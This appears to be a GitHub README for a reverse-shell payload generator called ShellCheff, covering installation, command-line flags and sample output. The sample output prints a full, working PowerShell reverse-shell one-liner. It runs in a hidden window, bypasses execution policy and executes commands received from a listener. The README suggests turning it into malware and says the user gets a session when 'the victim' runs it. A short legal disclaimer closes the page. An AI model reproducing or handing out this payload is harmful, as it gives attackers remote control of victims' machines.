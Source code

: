 # ShellCheff
A program that allows you to make ReverseShell attacks FAST, incredibly FAST

# Installation

Clone the repository :
```bash
https://github.com/Alperosci/ShellCheff.git
cd ShellCheff
```

Run the installation file:
```bash
chmod +x install.sh
./install.sh
```

# Usage

This is all flags and usages in tool:
```
usage: ShellCheff [-h] [-v] [-i IP] [-p PORT]

A program that allows you to make ReverseShell attacks FAST, incredibly FAST

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -i IP, --ip IP        Listener IP
  -p PORT, --port PORT  Listener PORT
```

## Example Usage
```
ShellCheff -i 127.0.0.0 -p 4444
 ____   _            _  _   ____  _             __   __ 
/ ___| | |__    ___ | || | / ___|| |__    ___  / _| / _|
\___ \ | '_ \  / _ \| || || |    | '_ \  / _ \| |_ | |_ 
 ___) || | | ||  __/| || || |___ | | | ||  __/|  _||  _|
|____/ |_| |_| \___||_||_| \____||_| |_| \___||_|  |_|  
                                                        

powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client=New-Object System.Net.Sockets.TCPClient('127.0.0.0',4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=iex $data 2>&1 | Out-String;$sendback2=$sendback+'PS>'; $sendbyte=[Text.Encoding]::ASCII.GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"

            ^
            |
Use this command in Powershell (or you can create a malware) to get powershell SHELL

Creating listener

Listening on 0.0.0.0 4444
```

When the victim runs the payload, you will get a PowerShell session on their machine.

# Legal Notice / Disclaimer

This tool is developed for educational and authorized penetration testing purposes only.

Unauthorized use of this software against systems or networks without explicit permission is illegal and punishable by law.

By using this tool, you agree to take full responsibility for your actions and ensure that you have proper authorization before performing any security testing or exploitation.

The author is not responsible for any misuse or damage caused by this software.
